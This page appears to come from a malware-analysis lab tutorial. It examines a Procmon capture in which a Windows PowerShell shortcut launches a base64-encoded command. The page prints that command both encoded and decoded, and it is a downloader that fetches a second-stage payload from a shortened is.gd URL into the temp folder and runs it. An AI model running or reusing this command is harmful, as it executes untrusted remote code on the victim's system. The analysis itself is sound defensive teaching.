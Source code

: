 ```yaml
---
title: "Examining the First Entry"
description: "Analyzing the output of Procmon to identify suspicious activities"
sidebar:
  order: 26
---
```



<Steps>

1.  Let's start our analysis, first lets check the first entry, which is a `Process Start` operation. We can see that its a powershell command being executed. Hover over it with your mouse pointer to see more details about the command as shown in the following image.

    ![alt text](../../../assets/image-121.png)

2.  We are able to see a long string passed to the powershell application as an argument, which looks like a `base64` encoded string. The encoded string shown in the above image is here as follows,

    <Code
      code="aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA="
      lang="json"
      title="Base64 Encoded String"
      wrap
    />

3.  Let's decode this `base64` encoded string with **CyberChef**. The **CyberChef** recipe is as follows:

    <Code
      code="https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Remove_null_bytes()"
      lang="plaintext"
      title="CyberChef Recipe URL"
      wrap
    />

4.  **CyberChef** has successfully decoded the `base64` encoded string as shown in the following image.

    ![alt text](../../../assets/image-122.png)

5.  The decoded string shown in the above image is as follows,

    <Code
      code="iwr is.gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd"
      lang="powershell"
      title="Powershell"
      wrap
    />

    Here is a breakdown of the above powershell command,

        - **`iwr`**: This stands for `Invoke-WebRequest`, a PowerShell command used to make HTTP requests.
        - **`is.gd/jwr7JD`**: This is a shortened URL, most likely pointing to some remote file or script. It's important to expand this URL to see what the original source is.
        - **`-o $env:TMP/.cmd`**: This option saves the downloaded content to a file named `.cmd` in the system's temporary directory.
        - **`& $env:TMP/.cmd`**: The `&` symbol in PowerShell is used to execute a command or script. Here, it runs the `.cmd` file that was just downloaded.

6.  Thus the `Windows Powershell` shortcut tries to download a second stage payload and executes it. But it isn't successful because it wasn't able to fetch the actual payload since we are in a isolated VM and probably **INetSim** should have responded with its template webpage when the http request was made to resolve the shortened URL, which the powershell command might have saved as the `.cmd` file and tried to execute it, which will obviously fail.

</Steps>